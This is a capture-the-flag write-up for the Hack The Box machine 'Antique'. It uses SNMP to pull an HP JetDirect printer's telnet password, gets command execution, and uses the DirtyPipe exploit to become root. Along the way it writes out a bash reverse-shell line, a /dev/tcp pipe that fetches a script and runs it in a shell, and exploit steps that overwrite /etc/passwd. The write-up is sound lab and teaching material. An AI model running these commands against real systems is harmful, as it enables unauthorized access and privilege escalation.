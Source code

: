 ![image](https://user-images.githubusercontent.com/105310322/187503034-e4779280-4727-4427-bad3-119e4a54ee69.png)

### Tools: Nmap, telnet, SNMP

Starting off with our nmap scan we find ports 23 and 161.

```console
└──╼ [★]$ nmap -sC -A -p 161,23 10.129.86.189
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-11 21:36 BST
Nmap scan report for 10.129.86.189
Host is up (0.012s latency).

PORT    STATE  SERVICE VERSION
23/tcp  open   telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
161/tcp open   snmp     SNMPv1 server (public)
```

If we try logging into telnet we can see we need a password. luckily HP jetDirect has a vulnerability associated with SNMP.

```console
└──╼ [★]$ telnet 10.129.86.189
Trying 10.129.86.189...
Connected to 10.129.86.189.
Escape character is '^]'.

HP JetDirect

Password: 
Invalid password
Connection closed by foreign host.
```
Running SNMP walk shows its a printer and confirms the relation to telnet. next we change the command a bit to get back a password.

```
└──╼ [★]$ snmpwalk -v 1 -c public 10.129.86.189
iso.3.6.1.2.1 = STRING: "HTB Printer"
```

Converting that hex string gives us the password "P@ssw0rd@123!!123" now we can try loggin into telnet.

```console
└──╼ [★]$ snmpwalk -v 1 -c public 10.129.86.189 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```
Nice now we are in as lpadmin and can get the user flag! Next we need to figure out how to privlege escalate.

```console
└──╼ [★]$ telnet 10.129.86.189
Trying 10.129.86.189...
Connected to 10.129.86.189.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> id
Err updating configuration
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
> 
```
```console
> exec cat user.txt
e8b8****************************
```
Set up a listner and then we can execute this bash shell to give us a pretty good shell. Now we are going to run linpeas, I had issues with the telnet shell but after creating this new shell I was able to get and run it much easier.

```console
└──╼ [★]$ nc -lvnp 6789
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::6789
Ncat: Listening on 0.0.0.0:6789
```
```console
> exec bash -c 'bash -i >& /dev/tcp/10.10.14.93/1234 0>&1'
```
We are goin to use these commands taken from the linpeas github site.

```console
sudo nc -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```
linpeas outputs alot of information but these 3 CVE are most notable. It also mentions cups 1.6.1 but I did not go that route.

```console
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

Vulnerable to CVE-2021-3560

Vulnerable to CVE-2022-0847
```

After testing all 3 I finally had some luck with this one. https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit The other were giving me issues and breaking my shell.

So we are going to navigate to /tmp and since we cannot get files on the system we can just copy and paste the exploit into our own file using ```echo 'EXPLOIT GOES HERE' > exploit.c```
NOTE: After copying and pasting the shell looks a little messed up and should look something like what is directly below. So just add the ```' > exploit.c``` and it will work fine.

```console
> <Restoring /etc/passwd from /tmp/passwd.bak...\\\";"
>                 "cp /tmp/passwd.bak /etc/passwd;"
>                 "echo \\\"Done! Popping shell... (run commands now)\\\";"
>                 "/bin/sh;"
>             "\" root"};
>         execv("/bin/sh", argv);
> 
>         printf("system() function call seems to have failed :(\n");
> return EXIT_SUCCESS;
> ' > exploit.c
```

I confirm the file is created.

```console
lp@antique:/tmp$ ls
ls
exp
exp.c
exploit.c
f
passwd.bak
solve.py
systemd-private-c5358880a0c8457890ce1682cb985ba6-systemd-logind.service-8gv78i
systemd-private-c5358880a0c8457890ce1682cb985ba6-systemd-timesyncd.service-tXY3Ah
tmux-7
vmware-root_872-2697532841
```
Then I compile and run it.

```console
lp@antique:/tmp$ gcc exploit.c -o exploit
gcc exploit.c -o exploit
lp@antique:/tmp$ ./exploit
./exploit
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "aaron"...
system() function call seems to have failed :(
lp@antique:/tmp$ su root
su root
Password: aaron
```

The exploit works and we get the flag!!!

```console
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
3573****************************
```

This is not the only method. I'm sure the other CVE's could have worked and The Cups 1.6.1 read file from root exploit is also confirmed to work. Also there was another version of the same CVE that I used that nearly worked but it wanted me to input a password that I did not have. Luckily I saw this one that came with a password.

GG!
